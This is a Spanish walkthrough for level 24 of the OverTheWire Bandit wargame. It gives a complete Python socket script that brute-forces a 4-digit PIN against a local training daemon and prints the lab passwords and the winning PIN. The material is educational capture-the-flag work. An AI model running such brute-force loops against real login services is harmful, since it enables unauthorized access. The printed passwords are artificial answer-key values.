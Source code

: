 # Y. **Bandit Level 24 → Level 25 - Walkthrough**

## **Objetivo del Nivel**
Un daemon está escuchando en el puerto **30002** y proporcionará la contraseña para `bandit25` si recibe la contraseña correcta de `bandit24` y un código PIN de 4 dígitos. No hay manera de obtener el PIN más que probando todas las combinaciones posibles, lo que significa que debemos hacer un **ataque de fuerza bruta**.

## **Conceptos Claves**
### **Fuerza Bruta**
Este método consiste en probar **todas** las combinaciones posibles hasta encontrar la correcta. En este caso, tenemos **10,000 combinaciones posibles** (`0000` a `9999`).

### **Sockets en Python**
Un **socket** es una forma de comunicación entre procesos a través de la red. En este reto, usaremos **sockets TCP** para comunicarnos con el daemon en `localhost` y enviar los intentos de PIN de manera continua sin cerrar la conexión.

---

## **Pasos para Resolver el Nivel**

### **1. Conectar a Bandit 24**
Inicia sesión con la contraseña obtenida en el nivel anterior.

```sh
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Cuando se solicite, ingresa la contraseña:

```sh
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

### **2. Crear el Script en /tmp**
Nos movemos a la carpeta `/tmp` (ya que no tenemos permisos de escritura en `~/`):

```sh
cd /tmp
```

Creamos un nuevo archivo llamado `bruteforce.py`:

```sh
nano bruteforce.py
```

Pega el siguiente código en el editor.

---

## **3. Código en Python para la Fuerza Bruta**
Este script intentará **todas las combinaciones de PIN** en una sola conexión sin necesidad de reconectarse en cada intento.

```python
#!/usr/bin/env python3
import socket
import time

# Configuración de la conexión
host = 'localhost'
port = 30002

# Contraseña de bandit24 (asegúrate de usar la correcta)
password = 'gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8'

# Crear socket TCP y conectar al daemon en el puerto 30002
s = socket.socket()
s.connect((host, port))

# Leer el banner inicial si lo hay
try:
    banner = s.recv(1024).decode('utf-8')
    print("Banner inicial:\n", banner)
except Exception:
    print("No se pudo leer el banner inicial.")

# Iterar sobre todos los posibles PINs (0000 - 9999)
for pin in range(10000):
    pin_str = f"{pin:04d}"  # Asegura que el PIN tenga 4 dígitos (ej: 0001, 0023)
    
    # Construir el mensaje: "contraseña PIN"
    mensaje = f"{password} {pin_str}\n"
    
    # Enviar el intento
    s.sendall(mensaje.encode())

    # Leer la respuesta
    try:
        respuesta = s.recv(1024).decode('utf-8')
    except Exception:
        print("Error al recibir respuesta.")
        break

    # Si encontramos la contraseña, la imprimimos y terminamos
    if "Password" in respuesta or "bandit25" in respuesta:
        print(f"¡PIN encontrado! PIN: {pin_str}")
        print("Respuesta del daemon:\n", respuesta)
        break
    else:
        print(f"Intento con PIN {pin_str} fallido.")



# Cerrar la conexión
s.close()
```

---

### **4. Dar Permisos de Ejecución**
Después de guardar el archivo (`CTRL + X`, luego `Y` y `Enter`), necesitamos darle permisos de ejecución:

```sh
chmod +x bruteforce.py
```

---

### **5. Ejecutar el Script**
Ahora podemos ejecutar el script y dejar que haga la fuerza bruta automáticamente:

```sh
./bruteforce.py
```

Este script probará **todas las combinaciones de PIN** (`0000` a `9999`) en una única conexión.

Cuando encuentre el PIN correcto, imprimirá algo como esto:

```sh
¡PIN encontrado! PIN: 9297

Respuesta del daemon:

 Correct!

The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

Copiamos esta contraseña y la usamos para el siguiente nivel.

---

### **6. Conectar a Bandit 25**
```sh
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

Cuando se solicite la contraseña, pegamos la que encontramos en el paso anterior.

---

## **Explicación del Código**
- **`socket.socket()`**: Crea una conexión TCP.
- **`s.connect((host, port))`**: Se conecta al puerto 30002 en `localhost`.
- **`s.sendall(mensaje.encode())`**: Envía la contraseña y el PIN al daemon.
- **`s.recv(1024).decode()`**: Recibe la respuesta del daemon.
- **`for pin in range(10000)`**: Itera desde `0000` hasta `9999` probando cada PIN.
- **`if "Password" in respuesta`**: Verifica si la respuesta contiene la contraseña de `bandit25`.

---

## **Conclusión**
Este método permite **encontrar el PIN correcto en menos de 1 minuto** sin necesidad de abrir múltiples conexiones. Si el script se interrumpe, puedes volver a ejecutarlo y comenzará desde `0000` nuevamente.

**¡Felicidades!** Has completado el nivel 24 y ahora puedes avanzar al nivel 25. 🚀